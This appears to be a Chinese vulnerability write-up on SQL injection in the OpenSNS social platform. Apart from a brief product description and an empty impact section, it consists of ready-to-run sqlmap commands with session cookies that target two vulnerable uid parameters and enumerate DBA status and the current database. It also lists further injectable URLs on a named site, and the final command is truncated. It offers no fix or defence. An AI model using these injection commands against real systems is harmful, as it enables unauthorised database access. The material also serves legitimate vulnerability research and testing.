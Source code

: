 OpenSNS sql注入
===============

一、漏洞简介
------------

OpenSNS是基于OneThink的轻量级社交化用户中心框架，系统秉持简约的设计风格，注重交流，为用户提供了一套轻量级的社交方案。OpenSNS前身是"ThinkOX"，2015年1月28号正式更名为OpenSNS。
OpenSNS采用PHP+MYSQL构建的一款有"身份"的开源免费SNS社交系统，适用于多种社会关系。
OpenSNS采用thinkphp框架编写。系统的设计遵循高内聚低耦合，允许管理员自由开启关闭功能模块。不仅如此，OpenSNS还内置了一个功能扩展商店，可以一键在线安装新的功能扩展。
OpenSNS目前有大量的国内开发者，云市场也上架了大量的第三方功能模块和主题应用，使OpenSNS可以同时满足各行各业的社交需求。

二、漏洞影响
------------

三、复现过程
------------

### SQL注入(一)

需要注册一个账号并登录

    sqlmap.py -u "http://localhost/index.php?s=/ucenter/Config/&uid=1*" --cookie " PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136" --batch --technique=T --dbms "mysql"
    sqlmap.py -u "http://localhost/index.php?s=/ucenter/Config/&uid=1*" --cookie " PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136" --batch --technique=T --dbms "mysql" --is-dba
    sqlmap.py -u "http://localhost/index.php?s=/ucenter/Config/&uid=1*" --cookie " PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136" --batch --technique=T --dbms "mysql" --current-db

#### 同类h注入点

<http://0-sec.org/index.php?s=/ucenter/index/index&uid=10>
<http://0-sec.org/index.php?s=/ucenter/index/information&uid=10>

### SQL注入(二)

需要注册一个账号并登录

    sqlmap.py -u "http://localhost/index.php?s=/ucenter/index/getExpandInfo&uid=1)*--+" --cookie "PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136;opensns_OX_LOGGED_USER=HYnkRzJxTkdgAdhKfVfkJ8n4kjemH%3DgWJU16IaiiFhglB7nm66fAxbZ9TTZXz%3DWWqjeQ5%3Di4bjZITf04G20E4v35V135D8miM5F2Jzf6VkgkYymtohawe" --dbms "mysql" --batch
    sqlmap.py -u "http://localhost/index.php?s=/ucenter/index/getExpandInfo&uid=1)*--+" --cookie "PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136;opensns_OX_LOGGED_USER=HYnkRzJxTkdgAdhKfVfkJ8n4kjemH%3DgWJU16IaiiFhglB7nm66fAxbZ9TTZXz%3DWWqjeQ5%3Di4bjZITf04G20E4v35V135D8miM5F2Jzf6VkgkYymtohawe" --dbms "mysql" --batch --is-dba
    sqlmap.py -u "http://localhost/index.php?s=/ucenter/index/getExpandInfo&uid=1)*--+" --cookie "PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136;opensns_OX_LOGGED_USER=HYnkRzJxTkdgAdhKfVfkJ8n4kjemH%3DgWJU16IaiiFhglB7nm66fAxbZ9TTZXz%3DWWqjeQ5%3Di4bjZITf04G20E4v35V135D8miM5F2Jzf6VkgkYymtohawe" --dbms "mysql" --batch --current-d

